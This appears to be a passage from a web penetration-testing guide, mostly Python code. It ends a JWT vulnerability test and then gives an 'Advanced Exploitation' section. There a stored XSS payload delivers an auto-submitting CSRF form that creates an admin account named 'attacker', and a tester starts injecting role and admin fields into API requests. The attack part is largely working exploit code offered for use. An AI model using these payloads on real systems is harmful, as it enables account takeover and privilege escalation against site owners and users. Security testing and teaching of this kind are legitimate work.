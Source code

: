 ```python
    # Test 3: Algorithm confusion (if you have public key)
    # Implementation depends on available public key
    
    return tests

# Test discovered JWT tokens
jwt_tokens = []  # Collect from application
for token in jwt_tokens:
    vulnerabilities = test_jwt_vulnerabilities(token)
    print(f"Token vulnerabilities: {vulnerabilities}")
```

#### **Phase 3: Advanced Exploitation (3 hours)**

**Chaining Vulnerabilities:**
```python
# Example: CSRF + XSS + Privilege Escalation Chain
import requests

# Step 1: Identify CSRF vulnerability in admin function
csrf_payload = """
<form action="https://target.com/admin/add-user" method="POST">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="password" value="password123">
    <input type="hidden" name="role" value="admin">
    <input type="submit" value="Submit">
</form>
<script>document.forms[0].submit();</script>
"""

# Step 2: Use stored XSS to deliver CSRF attack
xss_payload = f"<script>document.body.innerHTML='{csrf_payload}'</script>"

# Step 3: Inject XSS payload in vulnerable field
requests.post('https://target.com/comments', 
              data={'comment': xss_payload},
              cookies={'session': 'user_session'})

# When admin views comments, CSRF executes automatically
```

**API Security Exploitation:**
```python
# Advanced API testing script
import requests
import json

class APISecurityTester:
    def __init__(self, base_url, auth_token=None):
        self.base_url = base_url
        self.session = requests.Session()
        if auth_token:
            self.session.headers['Authorization'] = f'Bearer {auth_token}'
    
    def test_mass_assignment(self, endpoint, normal_data):
        # Test for mass assignment vulnerabilities
        attack_fields = ['role', 'admin', 'is_admin', 'permissions', 'user_id', 'id']
        
        for field in attack_fields:
            test_data = normal_data.copy()
            test_data[field] = 'admin'
            
            response = self.session.post(f"{self.base_url}{endpoint}", 
                                       json=test_data)
```